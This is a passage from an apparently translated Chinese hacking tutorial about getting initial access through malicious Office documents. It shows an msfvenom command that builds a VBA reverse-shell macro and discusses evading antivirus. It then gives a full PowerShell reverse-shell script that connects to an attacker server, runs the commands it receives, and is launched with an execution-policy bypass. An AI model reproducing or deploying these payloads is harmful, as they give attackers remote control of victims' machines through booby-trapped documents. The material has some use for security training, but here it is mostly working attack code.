 ```bash
root@FrontGun:~# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp -e generic/none -f vba lhost=FrontGun_IP lport=443
```
> 这将为x86架构(操作系统)生成一个反向shell有效负载，无需任何特殊编码（通用/无）。我们在Excel宏中复制/粘贴代码：
>
> ![](./media/image9.jpeg){width="5.37611220472441in"
> height="2.638888888888889in"}
>
> 如果我们检查生成的代码，我们将理解它执行以下操作：

-   通过调用过程Workbook_Open（在上图中不可见）在打开文档时启动有效负载；

-   定义一个数组，其中包含执行反向连接和代码执行的实际代码。它在x86汇编语言中，因此独立于所使用的语言（VBA、PowerShell等）；

-   分配一些可执行内存，然后将shell代码复制到内存执行。

> Metasploit几乎总是遵循这种模式来生成其有效载荷，无论使用何种语言。这使得防病毒解决方案能够标记（识别）此工具生成的任何内容变得非常简单。对隐身来说太过分了。
>
> 我们可以很容易的添加加密函数来加密包含shellcode的变量（例如，这里有一些灵感[18]），但是让我们来尝试一种全新的方法，减少障碍。

2)  **powershell来救援**

> PowerShell是Windows上最强大的脚本语言之一。它已迅速成为管理员最信任的工具（同样也是黑客最心爱的情妇）。在这个网页[19]上查看一些非常好的PS工具。
>
> 遵循与以前相同的模式，我们希望在PowerShell中生成反向shell，然后将其嵌入到Office文档中。我们从PS脚本开始[20]。

**#Open a socket connection**
```powershell
$client = New-Object System.Net.Sockets.TCPClient("FGUN_IP",4444);
$stream = $client.GetStream();
```
**#Send shell prompt**
```powershell
$greeting = "PS " + (pwd).Path + "> "
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting)
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};
```
**#Wait for response, execute whatever's coming, then loop back**
```powershell
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "PS " + (pwd).Path +"> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
> 为了确保脚本正常工作，我们使用以下命令在普通Windows机器上执行它:
```
C:examples> Powershell -Exec Bypass .reverse.ps1
```
> 在Front Gun服务器上，我们在端口4444上设置了监听器：
